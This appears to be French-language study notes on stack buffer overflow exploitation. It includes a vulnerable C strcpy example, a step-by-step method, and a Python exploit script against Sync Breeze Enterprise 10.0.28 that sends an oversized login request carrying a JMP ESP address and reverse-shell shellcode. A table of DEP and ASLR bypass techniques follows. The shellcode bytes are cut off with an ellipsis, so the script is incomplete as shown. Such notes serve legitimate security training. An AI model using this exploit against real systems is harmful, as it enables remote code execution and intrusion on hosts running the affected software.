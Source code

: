 
### 🔍 Analyse technique

  

Le dépassement de tampon sur la pile (stack overflow) consiste à écrire au-delà des limites d’un buffer local alloué sur la pile, jusqu’à écraser **l’adresse de retour** d’une fonction. Cette attaque permet un **contrôle direct du flot d’exécution** via l’EIP/RIP, menant potentiellement à l’exécution de shellcode.

  

### 📘 Code vulnérable de base

  

```c

int main(int argc, char *argv[]) {

    char buffer[64];

    strcpy(buffer, argv[1]); // vulnérabilité : pas de contrôle de taille

    return 0;

}

```


### Visualisation de la pile

```

[ buffer[64]   ]  <- Espace vulnérable

[ saved EBP    ]

[ return addr  ]  <- EIP que l’on peut écraser

```

### 🛠️ Méthodologie d'exploitation

  

1. Crash POC

2. Offset EIP avec `pattern_create`, `pattern_offset`

3. Analyse des badchars

4. Shellcode via `msfvenom`

5. Trouver un JMP ESP (ou créer une ROP chain)

6. Construction du buffer final

7. Test et obtention du shell

### 💥 Exploit : Sync Breeze Enterprise 10.0.28

  

Exploit d’un dépassement de tampon dans une requête POST à `/login`.


```python

#!/usr/bin/python

import socket

import sys

  

try:

    server = sys.argv[1]

    port = 80

    size = 800

  

    filler = b"A" * 780

    eip = b"\x83\x0c\x09\x10"  # JMP ESP dans DLL vulnérable (libspp.dll)

    offset = b"C" * 4

    nops = b"\x90" * 10

  

    shellcode = (

        b"\xdd\xc4\xba\x6d\xdc\x1e\xf1\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"

        b"\x52\x31\x56\x17\x83\xee\xfc\x03\x3b\xcf\xfc..."

    )

  

    payload = filler + eip + offset + nops + shellcode

    content = b"username=" + payload + b"&password=A"

  

    buffer = b"POST /login HTTP/1.1\r\n"

    buffer += b"Host: " + server.encode() + b"\r\n"

    buffer += b"User-Agent: Mozilla/5.0\r\n"

    buffer += b"Accept: */*\r\n"

    buffer += b"Connection: close\r\n"

    buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"

    buffer += b"Content-Length: " + str(len(content)).encode() + b"\r\n"

    buffer += b"\r\n"

    buffer += content

  

    print("Sending evil buffer.")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((server, port))

    s.send(buffer)

    s.close()

    print("Done!")

  

except socket.error:

    print("Could not connect!")

```

  

### 🔖 Détails techniques


- **Offset EIP** : 780 octets (déterminé avec mona)

- **JMP ESP** : dans `libspp.dll` (sans ASLR, sans DEP)

- **Badchars** : `\x00\x0a\x0d`

- **Payload** : shell reverse TCP, encodé


### ⛔️ Mitigations et contournements
  

| Protection    | Contournement                     |

| ------------- | --------------------------------- |

| DEP           | ROP + VirtualAlloc                |

| ASLR          | Modules statiques sans ASLR       |

| SEHOP         | POP POP RET dans DLL sans SafeSEH |

| Stack Cookies | Pas présent ici (pas de **GS**)   |

  
## ⚠️ Erreurs courantes


- Offset mal calculé → EIP partiellement contrôlé

- Shellcode corrompu (badchars)

- DLL choisie avec ASLR activé

  